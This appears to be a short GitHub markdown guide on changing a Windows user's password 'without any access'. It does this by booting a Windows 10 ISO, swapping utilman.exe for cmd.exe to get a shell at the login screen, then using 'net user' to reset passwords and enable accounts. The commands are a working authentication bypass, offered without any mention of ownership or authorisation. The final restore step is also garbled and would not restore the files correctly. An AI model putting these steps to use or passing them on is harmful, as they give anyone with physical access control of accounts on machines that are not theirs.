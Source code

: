 # Account

## 1.How to change user account

Let's take a look to how to change user password without any access through Windows ISO.

Boot on Windows 10 ISO
On the language screen, chose your language and hit **SHIFT+F10**

### 1.1. Get Logical Volume inforations

When the cmd terminal is oppened, list Diske Caption and Volume Name :

```powershell
wmic logicaldisk get caption, VolumeName
```

Move to the Disk you want (letter found with the previous command)

```powershell
d:
```

Go to the system32 folder 

```powershell
cd windows\system32
```
### 1.2 Utilman

Use utilman despite off cmd.exe

```powershell
ren utilman.exe utilman.exe.bak
ren cmd.exe utilman.exe
```

Reboot
```powershell
wpeutil reboot
```

### 1.3 Change user password

After rebooting, clic on accessibility icon

#### 1.3.1 Change password

Change the user password

```powershell
Example :
net user admin root

net user $USER pass
```
#### 1.3.2 Active user

Active user

```powershell
net user $USER /active:yes
```

Reboot

```powershell
wpeutil reboot
```

Replace utilman despite off cmd.exe

```powershell
ren utilman.exe cmd.exe
ren utilman.exe.bak utilman.exe
```